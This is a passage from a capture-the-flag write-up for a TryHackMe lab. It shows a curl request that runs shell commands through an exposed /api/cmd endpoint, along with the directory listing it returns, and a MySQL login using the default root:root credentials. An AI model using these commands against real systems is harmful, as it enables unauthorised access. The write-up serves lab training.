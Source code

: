 ![img](CTF_img/THM_KoTHF/3.png)
Using `curl -X POST -d "ls -la" 10.10.220.196:15065/api/cmd ` to test it and it work
```bash
curl -X POST -d "ls -la" 10.10.220.196:15065/api/cmd
total 7900
drwxr-xr-x 6 bread bread    4096 Apr  6  2020 .
drwxr-xr-x 7 root  root     4096 Mar 28  2020 ..
-rw------- 1 bread bread       5 Apr  6  2020 .bash_history
-rw-r--r-- 1 bread bread     220 Mar 20  2020 .bash_logout
-rw-r--r-- 1 bread bread    3771 Mar 20  2020 .bashrc
drwx------ 2 bread bread    4096 Mar 20  2020 .cache
----r--r-- 1 bread bread      38 Mar 28  2020 flag
drwx------ 3 bread bread    4096 Mar 20  2020 .gnupg
drwxrwxr-x 3 bread bread    4096 Mar 20  2020 .local
-rwxrwxr-x 1 bread bread 8037916 Apr  6  2020 main
-rw-rw-r-- 1 bread bread    1513 Apr  6  2020 main.go
-rw-r--r-- 1 bread bread     825 Mar 28  2020 .profile
drwxrwxr-x 3 bread bread    4096 Apr  6  2020 resources

```
We we dont have permission to read flag so ry to acces mysql to read credentials default of mysql is (root:root)
```bash
bread@foodctf:~$ mysql -h 10.10.220.196 -u root -p
mysql -h 10.10.220.196 -u root -p
Enter password: root

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 6
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
```